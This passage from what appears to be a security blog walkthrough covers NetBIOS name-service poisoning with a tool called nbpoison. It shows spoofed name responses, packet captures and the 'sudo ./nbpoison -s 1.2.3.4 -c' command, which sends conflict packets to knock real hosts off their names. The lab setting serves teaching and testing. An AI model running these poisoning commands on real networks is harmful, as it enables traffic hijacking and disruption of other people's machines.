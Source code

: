 And here's the victim machine:

```
C:Documents and SettingsRon>ping DEMO

Pinging DEMO [1.2.3.4] with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 1.2.3.4:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum =  0ms, Average =  0ms 
```

Notice that it resolved to my chosen IP!

Here's what the packet capture looks like:

```
1	0.000008	192.168.1.41	192.168.1.255	NBNS	Name query NB DEMO
2	0.000012	192.168.1.2	192.168.1.41	NBNS	Name query response NB 1.2.3.4
```

Nothing complicated there -- It asks who has DEMO, and I respond saying, "1.2.3.4 does".

Where it gets a little more complicated is when you race another machine. Recall that my boxes are called TEST1 and TEST2. What happens when TEST2 tries to ping TEST1?

```
6	21.120641	192.168.1.42	192.168.1.255	NBNS	Name query NB TEST1
8	21.126873	192.168.1.41	192.168.1.42	NBNS	Name query response NB 192.168.1.41
11	21.137469	192.168.1.2	192.168.1.42	NBNS	Name query response NB 1.2.3.4
```

In this case, TEST2 asks where to find TEST1, and gets two responses: one from TEST1, and one from me. Unfortunately, mine was second, so TEST2 gets the proper address and connects to the proper host.

Obviously, in an attack scenario, this isn't ideal. So, what can we do?

Recall a long time ago (at least, it feels like a long time ago when I'm typing...), I talked about sending a 'Conflict' packet to tell a system its name is already in use. So why don't we send a conflict ourselves?

To do this, we run nbpoison with the '-c' (or 'conflict') switch. This tells it to actively send out conflicts (I left it off by default because it can seriously break things). When that's enabled, it'll respond to every registration with a 'conflict'. Observe:

```
$ sudo ./nbpoison -s 1.2.3.4 -c
QUESTION name registration: (NB:TEST1          )
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1          ): IP: 192.168.1.41, TTL: 300000s
QUESTION name registration: (NB:TEST1           )
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1          ): IP: 192.168.1.41, TTL: 300000s
QUESTION name registration: (NB:TEST1          )
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1          ): IP: 192.168.1.41, TTL: 300000s
```
